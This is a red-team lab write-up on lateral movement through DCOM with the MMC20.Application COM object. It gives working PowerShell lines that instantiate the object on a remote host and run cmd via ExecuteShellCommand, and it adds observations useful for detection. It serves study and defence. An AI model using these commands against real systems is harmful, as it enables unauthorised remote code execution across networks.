 ```yaml
---
layout: post
title: "2024-06-18-t1175 distributed component object model"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1175-distributed-component-object-model/
---
```


---
description: Lateral Movement via Distributed Component Object Model
---

# Lateral Movement via DCOM

> The Microsoft Component Object Model (COM) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE (compound documents), ActiveX (Internet-enabled components), as well as others.
>
> [https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode %}

Executing command on the victim system via DCOM object:

{% code title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](<../../.gitbook/assets/dcom-rce (1).png>)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../../.gitbook/assets/dcom-mmc-bind.png)

![](../../.gitbook/assets/dcom-listening.png)

![](../../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 (attacker) to 10.0.0.2 (victim) via `offense\administrator` (can be also seen from the above screenshot):

![](../../.gitbook/assets/dcom-logon-event.png)

![](../../.gitbook/assets/dcom-connection2.png)

## References

{% embed url="https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2#System_Type_GetTypeFromCLSID_System_Guid_System_String_" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1175" %}
@spotheplanet
